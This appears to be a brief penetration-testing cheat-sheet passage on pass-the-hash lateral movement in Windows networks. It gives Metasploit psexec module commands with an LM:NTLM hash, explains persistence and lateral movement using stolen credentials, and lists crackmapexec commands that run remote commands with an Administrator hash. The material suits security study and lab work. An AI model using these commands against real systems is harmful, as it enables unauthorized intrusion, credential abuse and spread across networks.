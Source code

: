 ```shell
search psexec
use exploit/windows/smb/psexec
show options
set LPORT <local_port>
set RHOSTS <target_IP>
set SMBUser Administrator  # Use the Administrator account for SMB authentication
set SMBPass <LM:NTLM>  # Provide the LM and NTLM hash (in LM:NTLM format)
exploit 
```

Even if you already have administrative access on one machine through a Meterpreter session, using PsExec allows you to:
- **Establish Persistent Access:** If your original exploit gets patched or the vulnerability is fixed, using PsExec with valid credentials (or hashes) lets you regain access without exploiting the vulnerability again.
- **Lateral Movement Across the Network:** You can use stolen credentials (or NTLM hashes) to move from one compromised machine to other systems within the network that share the same credentials.
- **Privilege Escalation:** If you don't have the highest privileges on a new target system, PsExec can help you gain full administrative access using known valid credentials.

```shell
# The reason we didn't get a meterpreter session is because we need to configure the target.
set target
set target Command
exploit
# If it doesn't work try...
set target Native\ upload
exploit
sysinfo
getuid 
```

**Using crackmapexec** 

```shell
# Another way is using crackmapexec
crackmapexec smb <target IP> -u Administrator -H "<NTLM hash>"
crackmapexec smb <target IP> -u Administrator -H "<NTLM hash>" -x "ipconfig"
crackmapexec smb <target IP> -u Administrator -H "<NTLM hash>" -x "whoami"
```

